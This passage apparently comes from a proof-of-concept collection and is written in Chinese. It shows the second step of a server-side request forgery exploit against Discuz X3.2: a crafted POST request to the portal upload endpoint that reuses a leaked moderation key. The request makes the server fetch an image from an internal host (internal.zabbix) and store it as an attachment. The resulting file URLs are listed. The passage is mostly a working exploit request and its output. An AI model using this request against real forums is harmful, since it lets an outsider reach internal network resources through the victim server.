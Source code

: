http://a.cn/discuz_x3.2_sc_gbk/upload/forum.php?mod=viewthread&tid=1&page=1&modthreadkey=fce8163c9f310147f91a244a9eb9dc33#pid1 

第二步 带上当前formhash,modarticlekey拼上第一步的modthreadkey的值,即可发请求: POST:http://a.cn/discuz_x3.2_sc_gbk/upload/portal.php?mod=portalcp&ac=upload&aid=1&catid=1&op=downremotefile&formhash=760dc9d6&modarticlekey=fce8163c9f310147f91a244a9eb9dc33&content=<img src=http://internal.zabbix/images/general/zabbix.png> aa=a

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/79.png)

internal.zabbix域名下的图片被下载并上传到Discuz指定的图片路径下: 

http://a.cn/discuz_x3.2_sc_gbk/upload/data/attachment/portal/201605/17/112626qszsaqolbm9l93qm.png

http://a.cn/discuz_x3.2_sc_gbk/upload/data/attachment/portal/201605/17/112626qszsaqolbm9l93qm.png.thumb.jpg

![](https://github.com/cckuailong/PocCollect/blob/master/Web/Discuz/image/80.png)
